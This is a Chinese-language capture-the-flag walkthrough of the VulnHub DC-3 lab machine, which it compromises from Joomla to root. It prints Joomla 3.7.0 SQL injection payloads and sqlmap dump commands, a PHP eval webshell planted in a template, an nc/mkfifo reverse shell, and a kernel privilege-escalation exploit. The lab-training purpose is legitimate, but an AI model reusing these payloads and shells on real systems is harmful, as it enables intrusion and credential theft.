## 一、环境搭建

### 1、靶场描述

~~~ bash
DC-3 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
As with the previous DC releases, this one is designed with beginners in mind, although this time around, there is only one flag, one entry point and no clues at all.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.
For those with experience doing CTF and Boot2Root challenges, this probably won't take you long at all (in fact, it could take you less than 20 minutes easily).
If that's the case, and if you want it to be a bit more of a challenge, you can always redo the challenge and explore other ways of gaining root and obtaining the flag.
~~~

> 只有一个flag

### 2、下载靶场环境

> 靶场下载地址：
>
> ~~~ bash
> https://www.vulnhub.com/entry/dc-32,312/
> ~~~

### 3、启动靶场环境

> 下载下来是虚拟机压缩文件，直接用Vmvare导入就行。

> 设置虚拟机名称

> 导入中

> 导入完成后打开将网络模式设置为NAT模式

> 开启虚拟机报错
>
> 
>
> 
>
> #### 解决方法：
>
> **选择具体的虚拟机，点 \**“虚拟机”->“设置”->选择 “磁盘/光驱IDE设备" ->点 ”高级“\**，**
>
> **将要 启动设备 设置到 IDE 0:0 即可。**
>
> 
>
> 
>
> 

> 虚拟机开启之后界面如下，我们不知道ip，需要自己探活，网段知道：192.168.223.0/24

## 二、渗透靶场

### 1、确定目标，首先确定kali自身的网址

~~~ bash
ifconfig
~~~

> kali自身ip是192.168.223.128

### 2、信息收集：寻找靶机真实IP

~~~ bash
nmap -sP 192.168.223.0/24
~~~

> kali本机ip为192.168.223.128
> 所以分析可得靶机ip为192.168.223.134

~~~ bash
192.168.223.1		vm8网卡
192.168.223.2		网关
192.168.233.128	    kali本机
192.168.223.134	    靶机ip
192.168.233.254	    DHCP服务器
~~~

### 3、信息收集：探端口及服务

~~~ bash
nmap -A -p- -v  192.168.223.134
~~~

> 发现开放了80端口，存在web服务，Apache/2.4.18，CMS为Joomla

> 尝试访问对应的web服务

### 4、利用JoomScan进行扫描获取后台地址

> 由于我们前面采用nmap进行扫描时我们已经发现了中间件为joomla，我们可以采用joomscan进行扫描，如果我们不知道是joomla，我们可以采用目录扫描或者nikto等扫描工具进行扫描。发现更多的信息。

#### 1、JoomScan简介

> OWASPJoomla！漏洞扫描器（JoomScan）是一个开源项目，其主要目的是实现漏洞检测的自动化，以增强Joomla CMS开发的安全性。该工具基于Perl开发，能够轻松无缝地对各种Joomla项目进行漏洞扫描，其轻量化和模块化的架构能够保证扫描过程中不会留下过多的痕迹。它不仅能够检测已知漏洞，而且还能够检测到很多错误配置漏洞和管理权限漏洞等等。除此之外，OWASP JoomScan使用起来非常简单，不仅提供了非常友好的用户界面，而且还能够以HTML或文本格式导出扫描报告。

+ [OWASP Joomla 漏洞扫描器项目官方文档](https://wiki.owasp.org/index.php/Category:OWASP_Joomla_Vulnerability_Scanner_Project)
+ [GitHub - OWASP/joomscan](https://github.com/OWASP/joomscan)
+ [JoomScan：一款开源的OWASP Joomla漏洞扫描器 - FreeBuf网络安全行业门户](https://www.freebuf.com/sectool/181440.html)
+ [joomscan | Kali Linux Tools](https://www.kali.org/tools/joomscan/)
+ [JoomScan用法 - 玉明-风起于青萍之末](https://xdym11235.com/archives/47.html)

#### 2、JoomScan简单使用

~~~ bash
执行默认检测：
perl joomscan.pl --url www.example.com
perl joomscan.pl -u www.example.com

枚举已安装的组件：
perl joomscan.pl --url www.example.com --enumerate-components
perl joomscan.pl -u www.example.com –ec

设置cookie：
perl joomscan.pl --url www.example.com --cookie "test=demo;"

设置user-agent：
perl joomscan.pl --url www.example.com --user-agent "Googlebot/2.1(+http://www.googlebot.com/bot.html)"
perl joomscan.pl -u www.example.com -a "Googlebot/2.1(+http://www.googlebot.com/bot.html)"

设置随机user-agent
perl joomscan.pl -u www.example.com --random-agent
perl joomscan.pl --url www.example.com -r

更新JoomScan：
perl joomscan.pl –update
~~~

#### 3、JoomScan扫描

~~~ bash
joomscan --url http://192.168.223.134/
~~~



> 知道了joomla cms版本为3.7.0
> 得到了网站后台地址：http://192.168.223.134/administrator/

~~~ bash
http://192.168.223.134/administrator/
~~~



### 5、利用nikto扫描获取后台地址

#### 1、Nikto简介

> Nikto是一个开源的WEB扫描评估软件，可以对Web服务器进行多项安全测试，能在230多种服务器上扫描出 2600多种有潜在危险的文件、CGI及其他问题。Nikto可以扫描指定主机的WEB类型、主机名、指定目录、特定CGI漏洞、返回主机允许的 http模式等。

+ [nikto官方文档](https://cirt.net/nikto2)
+ [GitHub - sullo自动扫描工具](https://github.com/sullo/nikto)
+ [Web漏洞扫描神器Nikto使用指南_nikto扫描-CSDN博客](https://blog.csdn.net/liver100day/article/details/121392509)

#### 2、Nikto简单使用

~~~ bash
1、常规扫描
nikto -host/-h http://127.0.0.1
nikto -h http://127.0.0.1
2、可以指定端口进行扫描，同样可以指定SSL协议，进行HTTPS扫描。
nikto -h http:// 127.0.0.1 -p 443 ssl
3、指定子目录进行目录爆破
nikto -h http:// 127.0.0.1 -C /dvwa
4、批量扫描
nikto -host list.txt
5、升级更新插件
nikto -update
6、查看工具版本和插件版本
nikto -V
7、查看插件信息
nikto -list-plugins
8、命令查看帮助信息
nikto 
9、查看更详细的帮助信息
nikto -H
man nikto 
~~~

#### 3、Nikto扫描

> 我们前面已经知道了CMS是joomla，并且知道了后台地址，针对于这一个靶场这一步没有任何意义，这里只是提供一个思路，目录扫描，这里就不拓展了。

~~~ bash
nikto --url http://192.168.223.134/
~~~



> 得到了网站后台地址
>
> http://192.168.223.134/administrator/

### 6、查找漏洞发现存在SQL注入

> 我们前面知道了CMS为joomla，版本为3.7.0
> 使用searchsploit检查到有对应的漏洞

~~~ bash
searchsploit joomla 3.7.0
~~~



> 我们可以看一下这个漏洞的提示信息
> Kali的exploits路径为/usr/share/exploitdb/exploits
> Joomla3.7.0 exp信息路径为php/webapps/42033.txt

~~~ bash
cat /usr/share/exploitdb/exploits/php/webapps/42033.txt
~~~

> 提示信息如下
>
> ~~~ txt
> 
> # Exploit Title: Joomla 3.7.0 - Sql Injection
> # Date: 05-19-2017
> # Exploit Author: Mateus Lino
> # Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
> # Vendor Homepage: https://www.joomla.org/
> # Version: = 3.7.0
> # Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
> # CVE : - CVE-2017-8917
> 
> 
> URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27
> 
> 
> Using Sqlmap:
> 
> sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
> 
> 
> Parameter: list[fullordering] (GET)
>     Type: boolean-based blind
>     Title: Boolean-based blind - Parameter replace (DUAL)
>     Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)
> 
>     Type: error-based
>     Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
>     Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)
> 
>     Type: AND/OR time-based blind
>     Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
>     Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)
> ~~~



> 我们看到了POC，我们验证一下，把localhost修改为我们的靶机IP就ok
>
> ~~~ bash
> http://192.168.223.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27
> ~~~
>
> 
>
> 看到提示，数据库语句错误，说明进行了拼接，存在SQL注入
>
> 

### 7、sqlmap跑出数据

+ [sqlmap官网](https://sqlmap.org/)

+ [GitHub - highlightink/sqlmap-wiki-zhcn: 可能是最完整的 sqlmap 中文文档。](https://github.com/highlightink/sqlmap-wiki-zhcn)

+ [Sqlmap-Github仓库](https://github.com/sqlmapproject/sqlmap)

+ [sqlmap 用户手册](https://sqlmap.highlight.ink/)

+ [《sqlmap v1.4 用户手册中文版》 - 书栈网](https://www.bookstack.cn/read/sqlmap-wiki-zhcn/08451bfba2fb2bbc.md)

  

#### 1、跑出所有数据

~~~ bash
sqlmap -u "http://192.168.223.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
~~~



> 扫描结果：成功把数据库跑出
>
> ~~~ bash
> available databases [5]:
> [*] information_schema
> [*] joomladb
> [*] mysql
> [*] performance_schema
> [*] sys
> ~~~



#### 2、获取当前的数据库名字

~~~ bash
sqlmap -u "http://192.168.223.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --current-db
~~~



> 跑出来当前使用数据库为joomladb

#### 3、获取joomladb的表名

~~~ bash
sqlmap -u "http://192.168.223.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 -p list[fullordering] -D "joomladb" --tables
~~~



> 最终跑出76张表
>
> 

~~~bash
Database: joomladb
[76 tables]
+---------------------+
| #__assets           |
| #__associations     |
| #__banner_clients   |
| #__banner_tracks    |
| #__banners          |
| #__bsms_admin       |
| #__bsms_books       |
| #__bsms_comments    |
| #__bsms_locations   |
| #__bsms_mediafiles  |
| #__bsms_message_typ |
| #__bsms_podcast     |
| #__bsms_series      |
| #__bsms_servers     |
| #__bsms_studies     |
| #__bsms_studytopics |
| #__bsms_teachers    |
| #__bsms_templatecod |
| #__bsms_templates   |
| #__bsms_timeset     |
| #__bsms_topics      |
| #__bsms_update      |
| #__categories       |
| #__contact_details  |
| #__content_frontpag |
| #__content_rating   |
| #__content_types    |
| #__content          |
| #__contentitem_tag_ |
| #__core_log_searche |
| #__extensions       |
| #__fields_categorie |
| #__fields_groups    |
| #__fields_values    |
| #__fields           |
| #__finder_filters   |
| #__finder_links_ter |
| #__finder_links     |
| #__finder_taxonomy_ |
| #__finder_taxonomy  |
| #__finder_terms_com |
| #__finder_terms     |
| #__finder_tokens_ag |
| #__finder_tokens    |
| #__finder_types     |
| #__jbsbackup_timese |
| #__jbspodcast_times |
| #__languages        |
| #__menu_types       |
| #__menu             |
| #__messages_cfg     |
| #__messages         |
| #__modules_menu     |
| #__modules          |
| #__newsfeeds        |
| #__overrider        |
| #__postinstall_mess |
| #__redirect_links   |
| #__schemas          |
| #__session          |
| #__tags             |
| #__template_styles  |
| #__ucm_base         |
| #__ucm_content      |
| #__ucm_history      |
| #__update_sites_ext |
| #__update_sites     |
| #__updates          |
| #__user_keys        |
| #__user_notes       |
| #__user_profiles    |
| #__user_usergroup_m |
| #__usergroups       |
| #__users            |
| #__utf8_conversion  |
| #__viewlevels       |
+---------------------+
~~~

> 观察表名，很明显#__users这张表较为重要

#### 4、获取joomladb的users表的字段名

~~~  bash
sqlmap -u "http://192.168.223.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 -p list[fullordering] -D "joomladb" --tables -T "#__users" --columns
~~~



> 第一个选项直接使用“Y”
>
> 
>
> 
>
> 第二个选项使用"y"
>
> 
>
> 
>
> 第三个选项随意
>
> 
>
> 
>
> 第四个选项使用10线程
>
> 
>
> 
>
> 最终跑出来6个字段
>
> 
>
> ~~~ bash
> joomladb
> Table: #__users
> [6 columns]
> +----------+-------------+
> | Column   | Type        |
> +----------+-------------+
> | email    | non-numeric |
> | id       | numeric     |
> | name     | non-numeric |
> | params   | non-numeric |
> | password | non-numeric |
> | username | non-numeric |
> +----------+-------------+
> ~~~

#### 5.获取目标字段username和password

~~~ bash
sqlmap -u "http://192.168.223.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 -p list[fullordering] -D "joomladb" --tables -T "#__users" --columns -C "username,password" --dump
~~~



> 最终结果：获得一个用户名和机密后的密码
>
> 
>
> ~~~ bash
> Database: joomladb
> Table: #__users
> [1 entry]
> +----------+--------------------------------------------------------------+
> | username | password                                                     |
> +----------+--------------------------------------------------------------+
> | admin    | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu |
> +----------+--------------------------------------------------------------+
> ~~~

### 8、利用john爆破密码snoopy

+ [工具的使用|John the Ripper破解密码-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1937044)

> 使用john破解出admin密码，john the ripper是一款本地密码破解工具，可以从我们上面生成的shadow文件（密码散列）中破解出密码。破解时间取决于密码的复杂程度以及破解模式。
> 创建一个admin_pass.txt，把加密的密码字段写入



> 使用john破解出admin的密码是snoopy
>
> ~~~ bash
> john admin_pass.txt
> ~~~
>
> 

### 9.利用获取到的账号密码进行登录

~~~ bash
http://192.168.233.179/administrator/
admin/snoopy
~~~



> 登录成功
>
> 

>进入主页
>
>~~~ bash
>http://192.168.223.134/index.php
>~~~
>
>他告诉我们这次DC-3实战只有一个目标获得root权限
>
>

 

### 10.上传webshell

> 发现一个上传点
>
> 

> 点击Beez3 Details and Files进入
>
> 

> 点击New Files
>
> 

> 这儿我们发现可以上传文件，考虑上传木马，也可以创建文件进行编辑
>
> 

> 要上传木马，我们先要找到当前文件所在的目录：
>
> ~~~ bash
> http://192.168.223.134/templates/beez3/html/
> ~~~
>
> 

> 回到刚才的页面点击new file
> 在html下创建一个php文件，名字叫做Byt3h
>
> 
>
> 
>
> 创建成功之后跳到编辑页面，然后我们输入php一句话，点击左上角绿色的save进行保存
>
> ~~~ bash
> <?php
> echo("密码是Byt3h") ;
> @eval($_REQUEST[Byt3h]) ;
> ?>
> ~~~
>
> 

> 再次访问http://192.168.223.134/templates/beez3/html/
> 发现多了一个Byt3h.php文件，我们访问一下



> 访问webshell，得到我们设置的预先设置内容，则文件上传成功
>
> ~~~ bash
> http://192.168.223.134/templates/beez3/html/Byt3h.php
> ~~~
>
> 

### 11、蚁剑管理webshell

+ [[ 常用工具篇 \] AntSword 蚁剑安装及使用详解_antwsword-CSDN博客](https://blog.csdn.net/qq_51577576/article/details/126912450)

> 右键添加数据，然后输入<code>webshell</code>和连接密码
>
> ~~~bash
> webshell：http://192.168.223.134/templates/beez3/html/Byt3h.php
> 密码：Byt3h
> ~~~
>
> 

> 右键进入虚拟终端
>
> 

> 执行whaomi查询权限，是www-data权限
>
> 

### 12、反弹shell到kali

> 蚁剑看到的终端不如kali清晰，反弹一个shell到kali

+ [[ 隧道技术 \] 反弹shell的集中常见方式（一）nc反弹shell_nc反弹 正向反弹 反向反弹-CSDN博客](https://blog.csdn.net/qq_51577576/article/details/126128251)

#### 1、kali监听

> nc -lvvp 55555
>
> 

#### 2、靶机连接

~~~ bash
nc -e /bin/bash 192.168.223.134 55555
~~~

> 发现-e参数不可用
>
> 

> 使用如下目录连接
>
> ~~~ bash
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.223.128 55555 >/tmp/f
> ~~~
>
> 

#### 3、shell成功反弹



### 13、创建交互式shell

> 经常用shell的小伙伴都知道这个shell不好用，我们建立一个交互式shell
> 常用的就是python创建交互式shell
>
> 
>
> ~~~ bash
> python3 -c 'import pty; pty.spawn("/bin/bash")'
> ~~~
>
> 
>
> 交互式shell创建成功
>
> 

+ [实现交互式shell的几种方式：python pty 方式、升级nc、socat、script获取pty-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2130066)

### 14、使用辅助脚本发现提权漏洞

+ [[ 红队知识库 \] Windows & Linux 下常用的提权扫描辅助工具（含工具下载链接及使用介绍）_ctflinux提权 辅助工具-CSDN博客](https://blog.csdn.net/qq_51577576/article/details/129479360)

#### 1.下载辅助脚本Linux-Exploit-Suggester.sh

> 下载地址：
>
> ~~~ bash
> https://github.com/mzet-/linux-exploit-suggester
> ~~~

> 快速下载方式：
>
> ~~~ bash
> wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
> ~~~



#### 2.上传辅助脚本

> 我们直接在蚁剑中上传文件<code>les.sh</code>
>
> 
>
> 
>
> 

#### 3.发现漏洞

~~~ bash
ls -l les.sh
~~~



> 发现没有执行权限，我们给他加个执行文件的权限



> 执行脚本

~~~ bash
./les.sh
~~~

> 发现很多可利用的漏洞









### 15.使用辅助脚本提权

#### 1.获取提权脚本

> 上面发现了很多漏洞，这里我们挑一个进行提权
> 挑选CVE-2016-4557



> 在图片里可以看到是一个39772的文件，由于给出的那个URL无法下载
> 也可以直接下载我这里提前下载好的
>
> ~~~  bash
> https://pan.baidu.com/s/1Syct4OjCO5PWaEQm6EZ1Ow?pwd=u9r7
> ~~~
>
> 
>
> 也可以去searchsploit里面去看看
>
> 
>
> 
>
> 查看文件内容，发现39772.zip下载链接
>
> ~~~ bash
> cat /usr/share/exploitdb/exploits/linux/local/39772.txt
> ~~~
>
> 
>
> 
>
> 直接访问该链接即可下载相应的文件39772.zip

#### 2.上传39772.zip文件

> 再次使用中国蚁剑上传文件，右键选上传文件后选择刚刚下载的39772.zip进行上传
>
> 
>
> 
>
> 
>
> 最后文件上传成功
>
> 

#### 3.提权

> 解压文件
>
> ~~~ bash
> unzip 39772.zip
> ~~~
>
> 
>
> 
>
> ~~~ bash
> cd 33792
> ls
> ~~~
>
> 
>
> 
>
> ~~~ bash
> tar -xvf exploit.tar
> cd ebpf_mapfd_doubleput_exploit
> ~~~
>
> 
>
> 
>
> ~~~ bash
> ./compile.sh
> ./doubleput
> ~~~
>
> 
>
> 
>
> 获得root权限
>
> 

### 16.发现the-flag.txt

~~~ bash
ls
cat the-flag.txt
~~~



+ 参考链接：[[ vulnhub靶机通关篇 \] 渗透测试综合靶场 DC-3 通关详解 (附靶机搭建教程)-CSDN博客](https://blog.csdn.net/qq_51577576/article/details/129470364)

